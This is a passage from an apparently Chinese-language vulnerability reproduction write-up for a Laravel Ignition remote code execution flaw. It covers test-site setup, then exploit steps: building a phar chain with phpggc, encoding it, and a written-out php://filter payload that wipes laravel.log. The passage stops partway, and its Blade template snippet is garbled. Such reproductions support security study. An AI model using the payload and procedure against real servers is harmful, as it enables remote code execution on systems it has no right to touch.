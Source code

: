 4. 我们在根目录下将原有的. env.example 文件改名为. env  

运行 php artisan key:generate 创建 appkey 重新运行  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjCgvCiakCbCacibeBxIMbLmyia2HVG7hFm36ug5w4yvM0eEicWNO9Zib96uDGCjqmialV7lSZU1YKTampw/640?wx_fmt=png)

5. 这里我们还要在 resources\views 中添加一个自定的 hello.blade.php 内容如下

```
<!DOCTYPE html> <html lang="{{ str_replace('_', '-', app()->getLocale()) }}">  <meta charset="utf-8"> <meta > {{$username }} </div>
```

6. 再配置路由, 在 routes\web.php 中添加如下内容:

Route::get('/hello', function () { return view('hello'); });

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjCgvCiakCbCacibeBxIMbLmywROj5G3SZXcyUbubtzesNU3qpXia9ZWS4edhTcBMXsnYnW6jJVwaLVw/640?wx_fmt=png)

**0x05 漏洞复现**  

  

想要利用该漏洞需要有几个步骤：  
利用 phpggc 生成对应的 phar 文件→清空 laravel.log → 将编码后的字符写入到 log 中→清除干扰字符→执行 phar 反序列化  

一、利用 phpggc 生成对应的 phar 文件

我们可以通过在 laravel 的依赖里面找一条能够 rce 的链，如 monolog/rce1，生成对应的 phar 文件，并将 phar 文件 base64 编码

  
phpggc:  

```
https://github.com/ambionics/phpggc
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjCgvCiakCbCacibeBxIMbLmyKGAY8kRwYkI912oqACYvKfZn4344O0gicL8qEBel9We1pvwhMu5OVcw/640?wx_fmt=png)  

再将该 base64 编码后的字符进行 convert.quoted-printable-encode 编码  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjCgvCiakCbCacibeBxIMbLmyWWX53OrZ3SwdhyhhvGTsoqEIxmibhdLDB58Jb8jKXPYBXicuct8xb14A/640?wx_fmt=png)  

  
二、清空 laravel.log

作者在文章中提出了使用 php://filter 中的 convert.base64-decode 过滤器的特性，将 log 清空。这里用大佬的 payload 清空日志  

```
viewFile: php://filter/write=convert.iconv.utf-8.utf-16be|convert.quoted-printable-encode|convert.iconv.utf-16be.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjCgvCiakCbCacibeBxIMbLmyBBrKicKcPUynKxczV9ibvRnjwJLudkWjV2buqaJiaO9QFxRcicqJvzV9GQ/640?wx_fmt=png)  

  
三、将编码后的字符写入到 log 中

将 base64 编码后的字符进行 convert.quoted-printable-encode 编码后写入到 log 文件
